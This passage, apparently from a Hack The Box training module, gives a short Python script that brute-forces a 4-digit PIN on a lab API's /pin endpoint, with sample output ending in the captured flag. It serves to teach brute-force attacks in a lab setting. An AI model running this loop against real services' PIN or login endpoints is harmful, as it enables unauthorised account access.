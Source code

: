 We will use this simple demonstration Python script to brute-force the `/pin` endpoint on the API. Copy and paste this Python script below as `pin-solver.py` onto your machine. You only need to modify the IP and port variables to match your target system information.

```python
import requests

ip = "94.237.54.190"  # Change this to your instance IP address
port = 48781       # Change this to your instance port number

# Try every possible 4-digit PIN (from 0000 to 9999)
for pin in range(10000):
    formatted_pin = f"{pin:04d}"  # Convert the number to a 4-digit string (e.g., 7 becomes "0007")
    print(f"Attempted PIN: {formatted_pin}")

    # Send the request to the server
    response = requests.get(f"http://{ip}:{port}/pin?pin={formatted_pin}")

    # Check if the server responds with success and the flag is found
    if response.ok and 'flag' in response.json():  # .ok means status code is 200 (success)
        print(f"Correct PIN found: {formatted_pin}")
        print(f"Flag: {response.json()['flag']}")
        break
```

The Python script systematically iterates all possible 4-digit PINs (0000 to 9999) and sends GET requests to the Flask endpoint with each PIN. It checks the response status code and content to identify the correct PIN and capture the associated flag.

```shell
gitblanc@htb[/htb]$ python pin-solver.py

...
Attempted PIN: 4039
Attempted PIN: 4040
Attempted PIN: 4041
Attempted PIN: 4042
Attempted PIN: 4043
Attempted PIN: 4044
Attempted PIN: 4045
Attempted PIN: 4046
Attempted PIN: 4047
Attempted PIN: 4048
Attempted PIN: 4049
Attempted PIN: 4050
Attempted PIN: 4051
Attempted PIN: 4052
Correct PIN found: 4053
Flag: HTB{...}
```

The script's output will show the progression of the brute-force attack, displaying each attempted PIN and its corresponding result. The final output will reveal the correct PIN and the captured flag, demonstrating the successful completion of the brute-force attack.
